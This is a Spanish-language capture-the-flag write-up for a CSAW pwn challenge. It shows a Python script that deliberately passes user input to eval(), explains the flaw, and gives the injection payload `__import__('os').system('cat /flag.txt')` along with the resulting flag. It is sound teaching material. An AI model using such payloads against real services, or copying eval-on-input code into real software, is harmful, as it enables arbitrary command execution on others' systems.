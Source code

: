 # Enunciado

![Imagen01](01.png)

# Resolución

El código es el siguiente:
```
#!/usr/bin/env python3

# Pwn mostly builds on top of rev.
# While rev is more about understanding how a program works, pwn is more about figuring out how to exploit a program to reach the holy grail: Arbitrary Code Execution
#
# If you can execute arbitrary code on a system, that system might as well be yours...because you can do whatever you want with it! (this is the namesake of "pwn".....if you pwn a system, you own the system)
# Of course, that comes with the limitations of the environment you are executing code in...are you a restricted user, or a super admin?
# Sometimes you can make yourself a super admin starting from being a restricted user.....but we're not gonna do that right now.
#
# For now, I want you to figure out how to execute arbitrary commands on the server running the following code.
#
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`

try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```

Se pide obtener el contenido del archivo /flag.txt para demostrar que puedes hacerlo.

La vulnerabilidad aquí está en el uso de la función eval() de Python, que evalúa una cadena de texto como si fuera código Python. Esto es peligroso y una mala práctica porque un atacante podría ingresar comandos arbitrarios para que sean ejecutados por el servidor.

Para explotar esta vulnerabilidad, se puede intentar ingresar algo que no sea una contraseña, pero sí un comando Python. Por ejemplo:
```
__import__('os').system('cat /flag.txt')
```
Para ejecutar el comando del sistema cat /flag.txt, que mostraría el contenido del archivo /flag.txt:

![](02.png)

Siendo la flag:

**csawctf{neigh______}**

 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 
 


